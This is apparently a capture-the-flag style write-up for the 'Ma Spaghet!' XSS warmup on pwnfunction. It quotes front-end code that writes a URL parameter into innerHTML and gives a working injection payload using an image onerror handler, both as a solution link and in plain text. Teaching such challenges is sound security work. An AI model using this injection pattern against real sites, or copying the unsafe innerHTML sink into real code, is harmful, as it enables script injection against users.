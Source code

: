 # Ma Spaghet! - Exercise 1

[Problem](https://xss.pwnfunction.com/warmups/ma-spaghet/)

[Solution](https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=%3Cimg%20src=%22hello.jpg%22%20onerror=%22alert(1337)%22%3E)

## Explanation

Here is the part of the Front End code to inject JavaScript

```html
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

The JS script reads the parameter *somebody* or *Somebody* and change the content of h2 tag with the value of the parameter along with a parameter appended.
To inject the script, set the parameter somebody to `<img src="hello.jpg" onerror="alert(1337)">` . It is an image tag of unknown origin, which throws an error. When thrown an error, it executes the JS script `alert(1337)`.

### This might be useful

[About Params in JS](https://flaviocopes.com/urlsearchparams/)